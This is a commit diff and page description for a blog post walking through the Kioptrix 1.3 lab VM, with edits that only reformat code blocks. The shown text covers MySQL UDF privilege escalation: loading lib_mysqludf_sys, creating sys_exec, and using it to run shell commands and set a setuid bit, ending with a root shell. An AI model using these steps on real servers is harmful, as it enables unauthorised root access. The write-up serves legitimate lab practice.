

Before and after one commit to massimotamos/massimotamos.github.io, a Jekyll site: the page built from _posts/2019-03-20-Kioptrix-1.3.md, in a window 1280 px wide and 1400 px high, scrolled down 8072 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
refining 2

````diff
--- a/_posts/2019-03-20-Kioptrix-1.3.md
+++ b/_posts/2019-03-20-Kioptrix-1.3.md
@@ -170,6 +170,7 @@ going back to the restricted shell, I just learned that I can get the list of th
 `john:~$ ?
 cd  clear  echo  exit  help  ll  lpath  ls
 `
+
 `
 john:~$ echo $SHELL
 *** forbidden path -> "/bin/kshell"
@@ -313,7 +314,8 @@ I go to google for:
 
 and I get back this interesting link:
 
-`https://github.com/lamontns/pentest/blob/master/privilege-escalation/linux-privilege-escalation.md`
+`https://github.com/lamontns/pentest/blob/master/privilege-escalation/linux-privilege-escalation.md
+`
 
 In the article it mentions that it may be possible to get root privileges if one has mysql root access...
 
@@ -343,11 +345,13 @@ and yes we are in:
 
 Reading further int he document:
 
-```https://github.com/lamontns/pentest/blob/master/privilege-escalation/linux-privilege-escalation.md```
+```console
+https://github.com/lamontns/pentest/blob/master/privilege-escalation/linux-privilege-escalation.md
+```
 
 Here the document section of our interest:
 
-```
+```console
 mysql -u root
 use mysql;
 create table hack(line blob);
@@ -355,9 +359,11 @@ insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
 select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
 create function sys_exec returns some integer soname'lib_mysqludf_sys.so';
 ```
+
 In the article we find a reference to:
 
-`https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/`
+`https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
+`
 
 and fro there I do a git clone:
 
@@ -383,8 +389,10 @@ Mar 21 09:40 lib_mysqludf_sys.c
 
 and not only that... also the same sum:
 
-` sum /usr/lib/lib_mysqludf_sys.so
-35117    13`
+`
+sum /usr/lib/lib_mysqludf_sys.so
+35117    13
+`
 
 `
 tamosma@kali:~/hck-exercise/kioptrix-1.3/lib_mysqludf_sys$ sum lib_mysqludf_sys.so
@@ -401,7 +409,7 @@ as we had a look from:
 `lib_mysqludf_sys.sql`
 
 
-```
+```console
 Test function:
 select sys_exec('id >/tmp/out; chown user:user /tmp/out');
 quit
@@ -467,14 +475,16 @@ We transfer the file to the victim phrough python HTTPServer:
 
 then we give him the setuid bit of root:
 
-`mysql> select sys_exec('chmod +s /home/john/escalate2root');`
+`
+mysql> select sys_exec('chmod +s /home/john/escalate2root');
+`
 
 and the result is cool:
 
-`
+```console
 -rwsr-sr-x 1 root root  15536 2020-03-21 10:26 escalate2root
 john@Kioptrix4:~$ ./escalate2root
 # id
 uid=1001(john) gid=1001(john) euid=0(root) egid=0(root) groups=27(sudo),1001(john)
 #
-`
+```
````
